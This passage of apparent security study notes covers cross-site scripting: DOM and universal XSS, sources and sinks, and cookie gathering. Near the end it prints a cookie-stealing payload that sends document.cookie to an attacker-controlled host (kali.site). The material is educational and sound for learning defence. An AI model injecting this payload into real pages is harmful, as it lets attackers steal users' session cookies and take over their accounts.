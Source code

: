 It does not reach server-side code. This is the reason why this flaw is also known as **Type-0** or **Local XSS**.

Information we can get are the URL, history, cookies, local storage etc.

There is two keywords: *sources* and **sinks**.

> In software, data flow can be thought as in water flow in aqueduct systems which starts from natural sources and ends to sinks. In software security the sources are to be considered starting points where untrusted input data is taken by application.

> Sinks are meant to be the points in the flow where data depending from sources is used in a potentially dangerous way resulting in loss of Confidentiality, Integrity or Availability.

→ Moreover DOM XSS: https://code.google.com/p/domxsswiki/

### Universal XSS
- Aka UXSS
- it dows not leverage the flaws against web applications but the browser, its extensions or its plugins.


## XSS Attacks

### Cookie Gathering
- The main techniques to keep track of user session is by using HTTP cookies.
- Sometimes these cookies contain information such as username, password, and other application related information.

3 steps:
```php
- Script Injection
- Cookie Recording
- Logging
```

### Script Injection 
Inject the malicious payload that will send the stolen cookies to our controlled CGI
Accessing Cookies:
```php
var accessibleCookies = document.cookie;
```

AccessibleCookies is a string containing a semicolon-separated list of cookies in key=value pairs. The result contains cookies without the HTTPOnly attribute. On HTTP connections, only cookies without the SECURE attribute set are contained in the result.

Stealing Cookies
To steal cookies, we need to send the document.cookie content to something we can control, using a simple script like:
```php
new Image().src="http://kali.site/C.php?cc="+escape(document.cookie);
```
